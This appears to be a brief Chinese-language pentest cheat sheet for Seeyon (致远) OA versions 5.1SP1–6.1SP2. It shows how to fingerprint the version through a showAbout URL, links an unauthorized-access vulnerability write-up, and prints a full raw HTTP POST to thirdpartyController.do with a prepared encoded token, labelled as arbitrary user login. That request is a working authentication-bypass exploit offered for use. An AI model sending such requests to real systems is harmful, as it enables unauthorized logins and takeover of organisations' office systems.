

致远
目录
版本查看
5.1SP1— 6.1SP2版本
1.输入http://地址和端口/seeyon/main.do?method=showAbout
或者开发者工具

漏洞
https://www.hacking8.com/bug-web/致远oa/致远OA-A8-未授权访问.html
任意用户登录
POST /seeyon/thirdpartyController.do HTTP/1.1
method=access&enc=TT5uZnR0YmhmL21qb2wvZXBkL2dwbWVmcy9wcWZvJ04%2BLjgzODQxNDMxMjQzNDU4NTkyNzknVT4zNjk0NzI5NDo3MjU4&clientPath=127.0.0.1